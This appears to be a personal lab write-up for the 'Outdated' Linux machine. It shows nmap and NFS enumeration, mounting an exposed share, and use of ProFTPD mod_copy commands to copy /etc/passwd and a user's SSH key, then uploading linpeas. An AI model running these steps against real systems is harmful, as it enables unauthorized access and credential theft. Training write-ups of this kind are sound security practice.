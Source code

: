 ```yaml
---
tags: [Beginner, Linux, Video]
title: Outdated
created: '2020-07-04T12:48:44.472Z'
modified: '2020-10-02T17:40:54.757Z'
---
```


# Outdated
- IP: `172.31.1.22`
- OS: `Linux`
## Enumeration
### Writeup
We can mount a directory from NFS.

The server is running a vulnerable verion of ProFTPD but the [exploit](https://www.exploit-db.com/exploits/36803) requires a webserver. Let's see if we can do it manually.

`site cpfr /etc/passwd`
`site cpto /var/nfsbackups/passwd`

We can get the home folder for daniel and that way, we get his ssh key.
`scp -i /root/Documents/Learn/CyberSecLabs/Outdated/id_rsa linpeas.sh daniel@172.31.1.22:`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.22`
```
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      ProFTPD 1.3.5
22/tcp    open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 12:6b:ae:92:45:a3:2d:d6:45:1c:ad:4f:37:23:4d:3b (DSA)
|   2048 24:4a:81:08:4b:cc:bb:a7:c9:da:3b:17:39:ad:a0:61 (RSA)
|_  256 0c:2b:07:32:18:8c:1a:86:e3:fa:c4:09:de:f5:0f:a0 (ECDSA)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37773/tcp   mountd
|   100005  1,2,3      43057/udp   mountd
|   100005  1,2,3      45897/udp6  mountd
|   100005  1,2,3      46639/tcp6  mountd
|   100021  1,3,4      41620/udp6  nlockmgr
|   100021  1,3,4      46185/tcp   nlockmgr
|   100021  1,3,4      46252/udp   nlockmgr
|   100021  1,3,4      55229/tcp6  nlockmgr
|   100024  1          38008/udp6  status
|   100024  1          44207/tcp   status
|   100024  1          55678/tcp6  status
|   100024  1          57842/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  2-3 (RPC #100227)
37541/tcp open  mountd   1-3 (RPC #100005)
37773/tcp open  mountd   1-3 (RPC #100005)
44023/tcp open  mountd   1-3 (RPC #100005)
44207/tcp open  status   1 (RPC #100024)
46185/tcp open  nlockmgr 1-4 (RPC #100021)
```
</details>

<details>
<summary>nfs</summary>

- `showmount -e 172.31.1.22`
```
Export list for 172.31.1.22:
/var/nfsbackups *.*.*.*
```

- `mount -t nfs 172.31.1.22:/var/nfsbackups /mnt/nfsbackups`
</details>

<details>
<summary></summary>

- ``
```

```
</details>
